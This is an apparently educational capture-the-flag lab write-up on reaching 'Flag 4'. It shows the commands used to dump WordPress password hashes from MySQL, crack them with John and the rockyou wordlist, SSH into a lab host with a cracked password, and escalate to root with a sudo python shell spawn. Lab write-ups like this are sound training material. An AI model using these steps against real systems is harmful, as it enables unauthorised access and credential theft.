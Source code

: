 # Flag 4 Pictures 

### The Red Team continued to navigate through the MySQL Database and was successful at locating TWO User Password HASH's:

![pic](8.PNG) 

Command: select * from wp_users
* Documents TWO user login and their HASHED Passwords

![pic](9.PNG) 

### The Red Team used John to crack the Passwords:

* Create a document in NANO and paste the Hashed Passwords in the file
* Use John to crack the Hash
    * john --wordlist=/usr/share/wordlists/rockyou.txt wp_hashes
    
![pic](10.PNG)

### The Red Team SSH into Steven Account: Created a user shell
  * ssh steven@192.168.1.110
  * Password: pink84 

![pic](13.PNG)

### The Red Team was able to escalate to root 
  * sudo python -c "import pty;pty.spawn('/bin/bash')"  

  ![pic](14.PNG) 

### Red Team successfully located Flag 4

![pic](15.PNG) 



